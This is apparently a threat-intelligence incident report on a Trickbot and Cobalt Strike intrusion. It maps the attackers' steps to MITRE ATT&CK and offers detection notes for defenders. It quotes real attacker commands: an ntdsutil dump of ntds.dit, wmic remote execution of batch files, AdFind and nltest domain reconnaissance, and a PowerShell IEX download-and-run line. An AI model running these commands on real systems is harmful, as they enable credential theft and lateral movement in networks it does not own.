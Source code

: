 # Case Summary

The Trickbot threat actors used Cobalt Strike to pivot through-out the domain, dumping lsass and ntds.dit as they went. They used tools such as AdFind, Nltest, Net, Bloodhound, and PowerView to peruse the domain, looking for high privileged credentials to accomplish their mission. They used PowerShell, SMB, and WMI to move laterally.

After acquiring the necessary credentials, the threat actors used a technique called Overpass-the-hash to move to a backup server, before being kicked off the network. We believe if this attack had been allowed to continue, it would have ended in domain wide ransomware, specifically Ryuk.

# MITRE ATT&CK

The original delivery mechanism was not found, but likely to have been a malicious email based on previous known Trickbot campaigns.

Trickbot was manually executed on a single endpoint. Source: Hatching Triage | Behavioral Report

# Privilege Escalation

During the intrusion, we witnessed the threat actors elevate privileges on several systems using the built-in GetSystem named pipe privilege escalation tool in Cobalt Strike.

After executing on the infected endpoint, the Trickbot executable injected itself into the Window Error Reporting Manager (wermgr.exe).

Subsequent Trickbot command and control traffic then originated from the injected wermgr.exe process going forward.

Using the YARA rule generated by Malpedia we were able to locate Cobalt Strike injections in the following processes.


# Credential Access

The threat actors employed a couple different credential access techniques. The first technique used was dumping passwords from lsass on the beachhead machine.

After they gained access to a domain controller, we witnessed them use ntdsutil to run the following command:

ntdsutil "ac in ntds" "ifm" "cr fu C:\Perflogs\1"

The above command was executed from a batch file that was dropped and then executed using wmic.

wmic /node:"hostname" process call create "C:\Perflogs\12.bat"

This command, which is included in DPAT, dumps NTDS.dit to disk and has been used by Trickbot actors in the past. The above technique has been around since at least 2014 @chriscampell.


The threat actors ran the AdFind utility for domain discovery.
- C:\Windows\system32\cmd.exe /C adfind.exe -gcb -sc trustdmp > trustdmp.txt
- C:\Windows\system32\cmd.exe /C adfind.exe -f "(objectcategory=group)" > ad_group.txt
- C:\Windows\system32\cmd.exe /C adfind.exe -subnets -f (objectCategory=subnet)> subnets.txt
- C:\Windows\system32\cmd.exe /C adfind.exe -sc trustdmp > trustdmp.txt
- C:\Windows\system32\cmd.exe /C adfind.exe -f "(objectcategory=organizationalUnit)" > ad_ous.txt
- C:\Windows\system32\cmd.exe /C adfind.exe -f "objectcategory=computer" > ad_computers.txt
- C:\Windows\system32\cmd.exe /C adfind.exe -f "(objectcategory=person)" > ad_users.txt

The following net commands were used by the threat actor.
- net user
- net group "domain admins" /domain
- net group "enterprise admins" /domain

While on systems, we also saw them use the following commands.
- systeminfo
- ipconfig

The following Nltest commands were executed several times by the threat actors over the course of the intrusion.
- C:\Windows\system32\cmd.exe /C nltest /dclist:"DOMAINNAME"
- C:\Windows\system32\cmd.exe /C nltest /domain_trusts /all_trusts

The ping command was then used to test connectivity to the domain controllers and other systems.

IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:57637/'); Get-NetComputer -ping -operatingsystem *server*

Bloodhound was ran for domain attack path enumeration.

[Original]

# Lateral Movement

The threat actors utilized several lateral movement techniques. The first of which was using a remote service to execute PowerShell from the registry.

After decoding the above command a couple times and xoring you are left with the following shellcode, which appears to include a named pipe.

This CyberChef Recipe was used to decode the above PS command



The next lateral movement method used is SMB transfer and exec of batch files.

This file was seen executed locally via cmd, and on remote systems using wmic.

[Local]

C:\Windows\system32\cmd.exe /c C:\Perflogs\434.bat

[Remote]

wmic /node:"192.168.1.2" process call create "C:\Perflogs\434.bat"

SMB was also used to transfer Cobalt Strike Beacon executables to the ADMIN$ share on systems, which were then executed via a service.

Additionally, we also witnessed the use of overpass-the-hash. Here we can see a 4624 event with seclogo as the logon process and logon type 9 which tells us some form of pass the hash occurred.

Shortly after we see a couple Kerberos service ticket requests for that user.

This alert fired a couple times based on network activity.

Here’s some helpful information when looking for PTH or OPTH from Stealthbits

Cobalt Strike C2 #1:

Extracted Cobalt Strike Config:

Cobalt Strike C2 #2:

Trickbot Mor1

Based on the activity seen, we assess that the likely final actions would have been ransomware deployment across the domain environment.

Based on research from late last year by Kyle Ehmke, we can assess that the likely ransom deployment would have been Ryuk (Wizard Spider / UNC1878).

Enjoy our report? Please consider donating $1 or more to the project using Patreon. Thank you for your support!

We also have pcaps, files, and Kape packages available here. No memory captures are available for this case.

# MITRE ATT&CK DATASET
User Execution – T1204

Pass the Hash – T1550.002

SMB/Windows Admin Shares – T1021.002

Process Injection – T1055

OS Credential Dumping – T1003

Credential Dumping – T1003

Account Discovery – T1087

Domain Account – T1087.002

Domain Groups – T1069.002

Domain Trust Discovery – T1482

Remote System Discovery – T1018

Remote Services – T1021

Windows Management Instrumentation – T1047

PowerShell – T1059.001

Command-Line Interface – T1059

Commonly Used Port – T1043

Non-Standard Port – T1571

Standard Application Layer Protocol – T1071

Exfiltration Over C2 Channel – T1041

Internal case 1012

Share this: Twitter

LinkedIn

Reddit

Facebook

WhatsApp

